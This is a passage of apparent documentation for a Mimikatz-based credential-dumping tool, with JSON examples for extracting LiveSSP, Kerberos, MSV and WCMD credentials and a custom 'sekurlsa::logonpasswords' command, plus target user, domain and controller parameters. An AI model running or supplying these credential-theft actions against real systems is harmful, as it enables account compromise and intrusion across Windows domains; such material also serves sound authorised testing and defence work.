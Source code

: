 ### LiveSSP Credentials
```bash
# Extract LiveSSP credentials
{
  "action": "livessp_credentials",
  "target_user": "user@domain.com"
}
```

### Kerberos Credentials
```bash
# Extract Kerberos credentials
{
  "action": "kerberos_credentials",
  "target_user": "user@domain.com"
}
```

### MSV Credentials
```bash
# Extract MSV credentials
{
  "action": "msv_credentials",
  "target_user": "user@domain.com"
}
```

### WCMD Credentials
```bash
# Extract WCMD credentials
{
  "action": "wcmd_credentials",
  "target_user": "user@domain.com"
}
```

### Custom Command
```bash
# Execute custom Mimikatz command
{
  "action": "custom_command",
  "custom_command": "sekurlsa::logonpasswords"
}
```

## Parameters

### Target Parameters
- **target_user**: Target user for credential extraction
- **target_domain**: Target domain
- **target_dc**: Target domain controller
- **target_computer**: Target computer
